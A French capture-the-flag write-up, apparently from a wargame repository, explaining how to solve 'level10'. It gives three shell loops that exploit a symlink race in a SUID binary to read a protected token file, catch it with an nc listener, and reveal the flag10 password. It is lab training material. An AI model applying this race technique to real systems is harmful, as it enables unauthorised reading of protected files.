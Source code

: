 # Level10

[ENGLISH version](README_EN.md)

## Comment récuperer le flag

On peut voir que le level10 est un executable et possède un SUID.

Il y a également un fichier token qui n'est lisible que par flag10.

En lancant level10, l'executable donne l'usage suivant:

```
./level10 file host
	sends file to host if you have access to it
```

En décompilant level10, on s'appercoit que le programme envoie des données sur le port 6969.
Il utilise également access() pour vérifier si l'on a accès au fichier.

On peut lancer un serveur netcat qui va écouter sur le port 6969 avec nc:

```
nc -lv localhost 6969
```

Quel que soit le lien symbolic que nous faisons, acces() retourne une erreur.

Pour passer, nous sommes obligés de forcer.

Le but est de forcer l'accès au token, meme si l'on manque de droit.

Dans un 1er terminal:

```
// Boucle infinie: Le but est de créer des liens temporaire a l'infini
while true; do rm -rf /tmp/truc; touch /tmp/truc; ln -sfn ~/token /tmp/truc; done
```

A noter que pour passer access, le fichier DOIT Être crée par l'user, d'ou le touch.

Dans un 2ème terminal:

```
// Essayer d'envoyer le lien symbolique sur le serveur
while true; do (~/level10 /tmp/truc 127.0.0.1); done
```

Dans un 3ème terminal: 

```
// Lire en boucle sur le serveur.
// Nous sommes obligés de faire un boucle car sinon nc stoppe après 1 reception
while true; do nc -l 6969 ;done
```

Le flag pour se connecter au user flag10 est le suivant: woupa2yuojeeaaed06riuj63c

## Le flag

```
woupa2yuojeeaaed06riuj63c
```

Ce token permet de se connecter au flag10 et de récuperer le token pour le level 11